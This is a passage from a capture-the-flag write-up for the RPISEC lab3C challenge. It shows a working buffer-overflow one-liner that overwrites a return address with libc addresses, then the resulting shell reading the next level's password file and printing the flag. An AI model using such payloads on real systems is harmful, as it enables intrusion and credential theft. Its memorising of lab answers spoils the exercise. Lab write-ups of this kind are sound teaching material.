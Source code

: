 Now we can exploit the vulnerability outside `gdb`:

```shell
lab3C@warzone:/levels/lab03$ (python -c 'print "rpisec\n" + 80 * "\x41" + "\x90\x31\xe6\xb7" + "JUNK" + "\x24\x3a\xf8\xb7"'; cat;) | ./lab3C
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
lab3B
cat /home/lab3B/.pass
th3r3_iz_n0_4dm1ns_0n1y_U!
```

You can go to the next [challenge](/writeups/mbe/lab3b/)!
